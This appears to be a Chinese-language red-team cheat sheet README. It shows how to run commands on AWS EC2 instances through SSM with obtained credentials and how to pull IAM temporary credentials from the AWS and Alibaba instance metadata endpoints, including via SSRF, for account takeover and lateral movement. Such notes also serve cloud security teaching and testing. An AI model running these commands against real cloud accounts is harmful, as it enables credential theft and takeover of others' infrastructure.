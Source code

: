 # aws-cli-command
利用 aws cli 执行命令
当目标实例被 AWS Systems Manager 代理后，除了在控制台可以执行命令外，拿到凭证后使用 AWS 命令行也可以在 EC2 上执行命令。

列出目标实例 ID

aws ec2 describe-instances --filters "Name=instance-type,Values=running" --query "Reservations[].Instances[].InstanceId" <br>

aws ec2 describe-instances --query "Reservations[*].Instances[*].{ID:InstanceId,AZ:Placement.AvailabilityZone,Name:State.Name}" <br>


检查那些实例开放了执行命令的权限<br>
aws ssm describe-instance-information --output text<br>

在对应的实例上执行命令，注意将 instance-ID 改成自己实例的 ID<br>

aws ssm send-command \
    --instance-ids "instance-ID" \
    --document-name "AWS-RunShellScript" \
    --parameters commands=ifconfig \
    --output text<br>
获得执行命令的结果，注意将 $sh-command-id 改成自己的 Command ID<br>

aws ssm list-command-invocations \
    --command-id $sh-command-id \
    --details
  
<br>  
元数据<br>
元数据服务是一种提供查询运行中的实例内元数据的服务，当实例向元数据服务发起请求时，该请求不会通过网络传输，如果获得了目标 EC2 权限或者目标 EC2 存在 SSRF 漏洞，就可以获得到实例的元数据。<br>

在云场景下可以通过元数据进行临时凭证和其他信息的收集，在 AWS 下的元数据地址为：http://169.254.169.254/latest/meta-data/，直接 curl 请求该地址即可。

通过元数据，攻击者除了可以获得 EC2 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

通过访问元数据的 /iam/security-credentials/<rolename> 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行，不然访问会 404<br>

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ -w '\n'<br>
获取rolename
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<rolename> -w '\n'<br>

通过元数据获得目标的临时凭证后，就可以接管目标账号权限了，这里介绍一些对于 RT 而言价值相对较高的元数据：
<p>
mac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证</p>
    
    
ali
    http://100.100.100.200/latest/meta-data
    http://100.100.100.200/latest/meta-data/ram/security-credentials/ 
  
  来源：https://wiki.teamssix.com/CloudService/EC2/ec2-exec-command.html
